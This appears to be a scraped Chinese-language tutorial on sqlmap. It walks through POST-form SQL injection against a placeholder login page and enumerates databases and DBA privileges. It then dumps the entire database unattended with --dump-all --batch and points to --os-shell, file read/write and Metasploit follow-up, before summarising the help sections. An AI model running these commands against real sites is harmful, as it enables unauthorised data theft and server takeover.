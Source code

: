 好，跑数据库就是这么简单，于是呢来一个稍微有点干货的例子：
http://www.xxx.com/login.[asp](http://www.jb51.net/kf/web/asp/)有post注入，我想日了,但是我不想出去拷贝post数据，很麻烦，我想让sqlmap自动跑post注入
sqlmap -u “http://www.xxx.com/login.asp” –forms
很好，上面的命令成功的帮我跑了post注入，并且找到了post的注入点jjj=123
sqlmap -u “http://www.xxx.com/login.asp” –forms -p jjj –dbs
于是我用上面的命令看看数据库
sqlmap -u “http://www.xxx.com/login.asp” –forms -p jjj –is-dba
顺便看看当前用户是不是dba
sqlmap -u “http://www.xxx.com/login.asp” –forms -p jjj -a 
用了上面的命令 -a能得到什么呢：自己去看帮助吧。
帮你筛选了一下，-a下面的那些命令是用来看用户，看主机，看权限的。
后来呢，我发现权限还是挺高的，同时呢，我跑出来了数据库名称kkk
sqlmap -u “http://www.xxx.com/login.asp” –forms -p jjj -D kkk –tables
同时我找到了网站路径，然后我就又一次找到了sqlmap的牛逼的–os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell –os-shell
以及很多牛逼的文件操作命令–file-xx 这些命令在需要用的时候使用就是了，会给你带来意想不到的惊喜
与此同时，我发现tables里面没有我想要的东西，我也找不到合适的内容，咋办呢，心一横，我决定把所有的数据库内容跑出来自己找，于是我这么做：
sqlmap -u “http://www.xxx.com/login.asp” –forms -p jjj -D kkk –dump-all
然后牛逼的sqlmap就开始跑啊跑，然后紧接着我的蛋就碎了，尼玛，sqlmap一会就问你一次要不要[破解](http://www.jb51.net/Article/jiami/)密码，要不要这个，要不要那个，我和我的小朋友们都想擦你妹夫，功夫不负有心人，我又看见了一个命令 –batch 可以自动选择sqlmap默认选项
于是，我可以和我的小朋友们玩耍去了，再也不用看着sqlmap拖库了。

总结下来，帮助文档还是很重要的，多看看，总会有些收获：
为了避免各位看英文看到吐，大概总结下：
Target: 字面意思，目标，那么就是确定目标的
Request: 字面意思，请求，就是定义请求内容的，比如post数据，http头，cookie注入，http头污染等等
Optimization：字面意思，调节性能，等等
Injection: 字面意思，注入的设置内容基本在这里，比如指定注入点，指定db，指定系统，等等
Detection:
基本就是用在确认注入范围，寻找注入点区域，这些
Technique:
基本用在确定注入手段，以及攻击方式
Fingerprint:
基本用在指纹识别，用的很少
Enumeration:
枚举信息，主要用在注入中，很重要，很常用
Brute force:
用来爆破，其实主要是枚举tables columns用的
User-defined function injection:
现在只有udf提权，以及指定一些自己定义的sqlmap脚本用，高端使用，求大牛指点
File system access
主要是文件读取，文件写入
Operating system access 
主要用在对系统操作，例如os-shell 以及 后续的连接metasploit 实现后[渗透](http://vip.jb51.net/Article/61.html)攻击
[windows](http://www.jb51.net/os/windows/) registry access
基本就是注册表操作了
General
字面意思，综合的内容，一些特殊的功能实现，我在这里找到了crawl batch这些非常好用的参数
Miscellaneous</code></pre>



#### 注入

